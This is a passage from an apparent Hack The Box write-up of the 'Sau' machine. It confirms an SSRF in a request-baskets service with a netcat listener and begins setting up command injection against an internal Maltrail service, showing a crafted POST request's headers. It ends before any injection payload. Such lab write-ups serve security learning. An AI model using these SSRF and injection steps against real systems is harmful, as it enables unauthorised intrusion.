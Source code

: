 ![burp](https://github.com/bsv1n4y/WriteUps/blob/main/HTB/Sau/burp.png?raw=true)

Finally, after we hit the page, https://10.10.14.224:55555/anybasket, we should get a hit
```bash
sudo nc -lnvp 80
```
![nc](https://github.com/bsv1n4y/WriteUps/blob/main/HTB/Sau/nc.png?raw=true)

**We have confirmed that this is indeed vulnerable to SSRF**

#### Initial Access by exploiting command injection on maltrail

After confirming the SSRF we can make webserver to go to it's localhost where a service is running internally. (we saw filtered ports on nmap)
In BurpSuite, dont forget to change the basket name (here it is anybasket1)
```bash
POST /api/baskets/anybasket1 HTTP/1.1
Host: 10.10.11.224:55555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/json
Content-Length: 141
```